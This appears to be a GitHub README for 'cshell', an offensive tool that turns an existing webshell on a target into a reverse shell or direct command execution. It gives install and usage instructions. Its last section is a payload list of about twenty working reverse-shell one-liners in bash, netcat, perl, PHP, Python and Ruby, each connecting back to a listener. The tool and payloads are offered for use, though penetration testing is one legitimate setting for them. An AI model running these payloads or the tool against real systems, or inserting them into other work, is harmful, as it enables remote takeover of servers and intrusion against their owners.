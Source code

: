 # CSHELL  
***  
[![PyPI version fury.io](https://badge.fury.io/py/ansicolortags.svg)](https://pypi.python.org/pypi/cshell/)  [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/0z09e/cshell/LICENSE)  
  
***  
This script takes a working webshell as an argument and can perform the following operations  
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>  
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>  
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]  
  
## Install  
- From PIP library :   
  ```bash  
  pip3 install cshell  
  ```  
- From Github :   
  ```bash  
  git clone https://github.com/0z09e/cshell.git  
  cd cshell  
  sudo python3 setup.py install  
  ```  
    
### Usage  
- **Help Menu :**  
```bash  
$ cshell --help  
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...  
  
positional arguments:  
  {rev,web,lstnr}  
  
optional arguments:  
  -h, --help       show this help message and exit  
  --payloads       List all payload formats for rev  
  
web     Direct command execution on the webshell with error message  
rev     Reverse shell from a working webshell  
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]  
```

- **Getting a reverse shell from a webshell :**   
	- GET Method  : `cshell rev -i <Interface or IP> <Target URL with REV as command>`  
	- POST Method : `cshell rev -i <Interface or IP> -m POST -d <Post DATA in JSON format with REV as command> <Target URL>`  
- **Interacting with a webshell** :   
	- GET Method : `cshell web <Target URL with WEB as command>`  
	- Post Method : `cshell rev -m POST -d <Post DATA in JSON format with WEB as command> <Target URL>`  
- **Generating a payload** :   
	- `cshell lstnr -f <Format> -i <Interface or IP>  -p <Port> -f <Payload format>`  
  
  
### Payloads  
```bash  
$ cshell --payloads  
========================================================================================================  
Format-Name                     Payload  
========================================================================================================  
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196  
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1  
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done  
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5  
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1  
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f  
nc                              nc -e /bin/bash 127.0.0.1 1337  
nc-c                            nc -c /bin/bash 127.0.0.1 1337  
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash  
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'  
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'  
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'  
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'  
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'  
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'  
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'  
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")  
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
```  
